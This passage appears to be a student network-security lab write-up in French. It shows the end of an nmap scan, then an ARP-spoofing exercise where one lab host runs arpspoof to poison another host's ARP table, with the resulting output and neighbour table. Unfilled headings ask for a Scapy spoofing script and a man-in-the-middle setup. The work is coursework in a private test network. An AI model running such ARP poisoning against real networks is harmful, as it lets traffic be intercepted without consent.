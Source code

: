 ```----------------------------------------------------------```
Nmap done: 1 IP address (1 host up) scanned in 5.80 seconds

🦈 Capture Service Scan

[nmap_2.pcap](nmap_2.pcap)


PARTIE 4 

1. Simple ARP spoof

🌞 Empoisonnez la table ARP de node2.tp1.my

[admin@node1 ~]$ sudo arpspoof -i ens160 -t 10.1.1.101 10.1.1.253
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:3d:1f:1b
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:3d:1f:1b
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:3d:1f:1b
^CCleaning up and re-arping targets...
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:f4:b0:c7
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:f4:b0:c7
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:f4:b0:c7
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:f4:b0:c7
0:c:29:3d:1f:1b 0:c:29:78:2:a4 0806 42: arp reply 10.1.1.253 is-at 0:c:29:f4:b0:c7https://github.com/JustinTAILLART/s-cu_reseau.git

[admin@node2 ~]$ ip n s
10.1.1.100 dev ens160 lladdr 00:0c:29:3d:1f:1b STALE
10.1.1.1 dev ens160 lladdr 00:50:56:c0:00:01 REACHABLE
10.1.1.253 dev ens160 lladdr 00:0c:29:3d:1f:1b REACHABLE

🦈 Capture ARP Spoof

[arp_spoof_1.pcap](arp_spoof_1.pcap)

2. Avec Scapy

🌞 Ecrire un script Scapy qui fait le travail de arpspoof

🦈 Capture ARP Spoof Scapy

🌞 Mettre en place un MITM ARP

🦈 Capture MITM ARP